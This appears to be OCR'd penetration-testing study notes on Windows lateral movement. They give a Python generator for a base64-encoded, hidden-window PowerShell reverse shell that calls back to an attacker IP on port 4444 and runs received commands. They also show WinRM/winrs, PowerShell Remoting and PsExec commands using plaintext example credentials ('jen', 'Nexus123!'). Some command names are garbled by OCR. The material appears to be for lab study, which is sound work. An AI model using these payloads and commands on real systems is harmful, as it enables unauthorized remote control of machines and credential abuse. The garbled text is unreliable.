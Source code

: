 python code for bsae64 encoded powershell reverse shell payload generator with escape character encoding:

```
import sys
import base64
```

payload = '$client = New-Object System.Net.Sockets.TCPClient("`<myip>`",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

and now we run:
python3 encode.py
to get the payload

WinRM can be employed for remote management::Microsoft version of WS-Management
exchange XML over HTTP and HTTPS on port 5985 5986 respectively

winrs Windows Remote Shell:
winrs -r:`<targethost>` -u:`<username>` -p:`<password>` "cmd /c `<payload>`"

PowerShell has WinRM::PowerShell Remoting
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName `<targethost>` -Credential $credential

and on the target host we can just 
Enter-PSSession `<session ID>`


### PsExec

part of the SysInternals suite 

1. admin user
2. ADMIN$ avalible
3. File and Printer Sharing on

2 && 3 are default on morden windows

to RCE ### PsExec:
- writes psexesvc.exe into C:\Windows
- Creates a service on the remote host
- runs command as a child of psexesvc.exe

### PsExec is not default on Windows

.\### PsExec64.exe -i  \\`<targethostname>` -u `<domain>`\`<user>` -p `<password>` cmd
example:
.\### PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
